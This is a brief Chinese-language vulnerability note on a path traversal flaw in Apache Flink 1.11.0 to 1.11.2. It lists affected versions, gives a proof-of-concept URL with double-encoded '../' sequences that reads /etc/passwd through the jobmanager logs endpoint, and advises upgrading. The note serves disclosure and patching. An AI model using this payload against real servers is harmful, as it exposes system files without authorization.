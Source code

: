 ### 简介 ###

Apache Flink是一个开源流处理框架，具有强大的流处理和批处理功能。

### 影响版本 ###

1.11.0

1.11.1

1.11.2

### 漏洞利用 ###

![](图片/af947f7215c0f6b269a8c2fdda19cd11.png)

POC:

    http://127.0.0.1/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
    
![](图片/7e383cf57a9e36bdf8f9c87a68a3dab4.png)

### 修复建议 ###

所有用户升级最新版